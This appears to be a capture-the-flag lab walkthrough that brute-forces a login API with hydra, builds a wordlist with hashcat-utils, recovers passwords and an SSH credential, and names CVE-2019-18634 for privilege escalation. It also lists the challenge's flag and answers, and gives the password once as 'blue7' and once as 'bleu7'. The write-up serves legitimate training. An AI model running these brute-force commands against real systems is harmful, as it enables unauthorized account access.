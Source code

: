 * #### Form the hydra command to attack the login API route
    
```shell
hydra -l james -P wordlist.txt 10.10.127.143 http-post-form "/api/user/login:username=^USER^&amp;password=^PASS^:F=incorrect" -V
```

* #### How many passwords were in your wordlist?
    
Form the wordlist.txt from known favorites color and number (hint from james "forgotten password") with HASHCAT-UTILS and the two files numbers.txt and colors.txt :

```console
cp numbers.txt /opt/hashcat-utils/src  
cp colors.txt /opt/hashcat-utils/src  
cd /opt/hashcat-utils/src  
./combinator.bin colors.txt numbers.txt &gt; wordlist.txt  
wc wordlist.txt  
180
```

Answer : 180

* #### What was the user's password?  
I do a cluster bomb attack with BURPSUITE and the wordlist.txt and i get the result blue7 password match with a different length.

Answer : bleu7

* #### Login as the user to the platform
No answer but James let us a note as reminder with his SSH password : dak4ddb37b

* #### What's the user's SSH password?
Answer : dak4ddb37b

* #### Log in as the user to SSH with the credentials you have.
```console
ssh james@10.10.127.143
```

No answer

* #### What's the user flag?  
```console
cat user.txt  
thm{56911bd7ba1371a3221478aa5c094d68}
```

Answer :thm{56911bd7ba1371a3221478aa5c094d68}

## **TASK 5 : Escalate** <a name="Escalate"></a>

* #### What is the CVE number for the exploit? 
Reading the texttell us the recent CVE is "pwdfeedback" and googling"pwdfeedback" return theCVE-2019-18634.  
Answer :CVE-2019-18634

* #### Find the exploit from [https://github.com/saleemrashid/](https://github.com/saleemrashid/) and download the files.
